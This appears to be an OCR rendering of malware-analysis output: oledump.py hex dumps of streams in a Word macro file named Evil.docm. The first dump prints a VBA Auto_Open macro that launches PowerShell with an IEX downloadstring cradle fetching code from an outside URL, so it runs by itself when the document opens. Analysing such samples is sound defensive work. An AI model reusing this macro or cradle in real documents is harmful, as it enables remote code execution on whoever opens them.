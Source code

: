 ```
000004F0: 22 49 45 58 20 28 28 6E  65 77 2D 6F 62 6A 65 63  "IEX ((new-objec
00000500: 74 20 6E 65 74 2E 77 65  62 63 6C 69 65 6E 74 29  t net.webclient)
00000510: 2E 64 6F 77 6E 6C 6F 61  64 73 74 72 69 6E 67 28  .downloadstring(
00000520: 27 68 74 74 70 73 3A 2F  2F 6F 72 69 67 30 33 2E  'https://orig03.
00000530: 64 65 76 69 61 6E 74 61  72 74 2E 6E 65 74 2F 31  deviantart.net/1
00000540: 32 36 66 2F 66 2F 32 30  30 39 2F 31 35 36 2F 38  26f/f/2009/156/8
00000550: 2F 35 2F 6F 77 6C 5F 62  65 61 72 5F 62 79 5F 62  /5/owl_bear_by_b
00000560: 65 6E 77 6F 6F 74 74 65  6E 2E 6A 70 67 27 29 29  enwootten.jpg'))
00000570: 22 27 00 36 02 FF FF FF  FF C0 01 00 00 FF FF FF  "'.6............
00000580: FF 01 01 08 00 00 00 FF  FF FF FF 78 00 00 00 FF  ...........x....
00000590: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005A0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005B0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005C0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005D0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005E0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
000005F0: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000600: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000610: FF FF FF 00 00 01 19 B1  00 41 74 74 72 69 62 75  .........Attribu
00000620: 74 00 65 20 56 42 5F 4E  61 6D 00 65 20 3D 20 22  t.e VB_Nam.e = "
00000630: 4E 65 77 00 4D 61 63 72  6F 73 22 0A 00 53 75 62  New.Macros"..Sub
00000640: 20 41 75 74 6F 00 5F 4F  70 65 6E 28 29 0A 02 20   Auto._Open().. 
00000650: 00 00 44 69 6D 20 65 78  80 65 63 20 41 73 20 53  ..Dim ex�ec As S
00000660: 00 7C 1C 6E 67 02 2C 02  24 00 7A 70 6F 77 00 65  .|.ng.,.$.zpow.e
00000670: 72 73 68 65 6C 6C 2E 01  00 24 20 22 22 49 45 58  rshell...$ ""IEX
00000680: 20 00 28 28 6E 65 77 2D  6F 62 00 6A 65 63 74 20   .((new-ob.ject 
00000690: 6E 65 74 00 2E 77 65 62  63 6C 69 65 00 6E 74 29  net..webclie.nt)
000006A0: 2E 64 6F 77 6E 20 6C 6F  61 64 73 02 4B 28 27 00  .down loads.K('.
000006B0: 68 74 74 70 73 3A 2F 2F  00 6F 72 69 67 30 33 2E  https://.orig03.
000006C0: 64 00 65 76 69 61 6E 74  61 72 04 74 2E 00 38 2F  d.eviantar.t..8/
000006D0: 31 32 36 66 00 2F 66 2F  32 30 30 39 2F 00 31 35  126f./f/2009/.15
000006E0: 36 2F 38 2F 35 2F 00 6F  77 6C 5F 62 65 61 72 08  6/8/5/.owl_bear.
000006F0: 5F 62 79 00 07 6E 77 6F  6F 00 74 74 65 6E 2E 6A  _by..nwoo.tten.j
00000700: 70 67 40 27 29 29 22 22  22 02 9F 53 09 01 92 20  pg@'))"""..S... 
00000710: 28 01 A6 29 0A 45 6E 7C  64 20 00 DB 06 DF 08 6F  (..).En|d .....o
00000720: 06 77 0A 12 57 80 6F 72  6B 62 6F 6F 6B 09 84 01  .w..W�orkbook...
00000730: 8F 14                                             ..
```
```
$ oledump.py -s 4 Evil.docm 
00000000: 01 16 03 00 00 F4 00 00  00 B8 02 00 00 D8 00 00  ................
00000010: 00 DE 01 00 00 FF FF FF  FF BF 02 00 00 13 03 00  ................
00000020: 00 A5 03 00 00 00 00 00  00 01 00 00 00 D9 D5 11  ................
00000030: 37 00 00 FF FF A3 01 00  00 88 00 00 00 B6 00 FF  7...............
00000040: FF 01 01 00 00 00 00 FF  FF FF FF 00 00 00 00 FF  ................
00000050: FF FF FF FF FF 00 00 00  00 00 00 00 00 00 00 00  ................
00000060: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000070: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000080: 00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 03  ................
00000090: 00 00 00 05 00 00 00 07  00 00 00 FF FF FF FF FF  ................
000000A0: FF FF FF 01 01 08 00 00  00 FF FF FF FF 78 00 00  .............x..
000000B0: 00 08 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000C0: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000D0: 00 00 FF FF 00 00 00 00  4D 45 00 00 FF FF FF FF  ........ME......
000000E0: FF FF 00 00 00 00 FF FF  00 00 00 00 FF FF 01 01  ................
000000F0: 00 00 00 00 DF 00 FF FF  00 00 00 00 18 00 FF FF  ................
00000100: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000110: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000120: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000130: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000140: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000150: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
00000160: FF FF FF FF FF FF FF FF  FF FF FF FF FF FF FF FF  ................
```